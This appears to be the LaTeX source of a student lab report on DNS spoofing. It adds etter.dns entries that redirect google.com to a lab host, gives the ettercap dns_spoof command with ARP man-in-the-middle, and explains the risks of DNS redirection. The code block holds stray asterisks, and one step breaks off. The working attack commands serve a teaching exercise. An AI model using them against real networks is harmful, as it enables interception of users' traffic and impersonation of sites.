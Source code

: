 \documentclass[a4paper,11pt,hidelinks]{article}
\newtheorem{theorem}{Question}[subsection]
\begin{document}
\begin{proof}
I opened the \verb=/etc/ettercap/etter.dns= and added the following:

\begin{code}{Added code in the DNS configuration.}
    *.google.com A 10.1.2.4
    google.com A 10.1.2.4
    www.google.com PTR 10.1.2.4
\end{code}

Then, I re-started ettercap with this setup:

\begin{code}{Ettercap command.}
**# ettercap --plugin dns_spoof --text --iface eth0 **
**              --nosslmitm --nopromisc --mitm arp /10.1.2.2/// /10.1.2.3///**
\end{code}

On the cache machine, we can do \verb=sudo arp -d auth-lan0= to invalidate the ARP cache. Finally:


We can see that the obtained IP is the \verb=attacker= one, so the attack worked.
\end{proof}

\begin{theorem}
    What malicious things could an attacker do by changing the IP address in a DNS response going to the client?
\end{theorem}

\begin{proof}
    An attacker could change the IP address to a compromised machine, controlled by the attacker. At this point, the attacker can do literally anything (estabilish a TLS connection with the client, read the client's data, forge traffic) while the client would be unconscious of his traffic being redirected to a compromised machine.
\end{proof}
\end{document}
